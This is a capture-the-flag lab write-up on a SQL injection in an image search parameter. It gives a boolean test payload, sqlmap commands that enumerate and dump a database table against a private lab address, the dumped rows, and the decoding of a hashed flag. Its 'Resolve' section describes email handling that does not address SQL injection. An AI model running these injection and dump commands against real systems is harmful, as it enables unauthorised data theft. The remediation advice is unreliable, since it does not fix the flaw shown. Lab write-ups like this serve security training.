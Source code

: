 # 01_Unsecure_img_search

The GET parameter in the image search form is vulnerable.  


## Method

Go to http://192.168.1.59/?page=searchimg.  
In the search field, search `1 AND 1=1`

## Manipulation

Open terminal (Powershell), run  
```bash
python sqlmap.py --url="http://192.168.1.59/?page=searchimg&id=1&Submit=Submit# --tables
```  

This displays all the databases & their tables.  
Thereafter tables can be dumped  
```bash
python sqlmap.py --url="http://192.168.1.59/?page=searchimg&id=1&Submit=Submit# --dump -T list_images
```  
where `list_images` refers to the table name  

```bash
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
```

Decode flag  
```bash
1928e8083cf461a51303633093573c46 -> albatroz -> F2A29020EF3132E01DD61DF97FD33EC8D7FCD1388CC9601E7DB691D17D4D6188
```  


## Resolve

- Store email in a variable on the backend
- Process email on submit to check that it is correct.

### Resources

https://www.hackers-arise.com/post/2017/04/24/database-hacking-part-4-extracting-data-with-sqlmap  
https://www.md5online.org/md5-decrypt.html  
https://passwordsgenerator.net/sha256-hash-generator/  

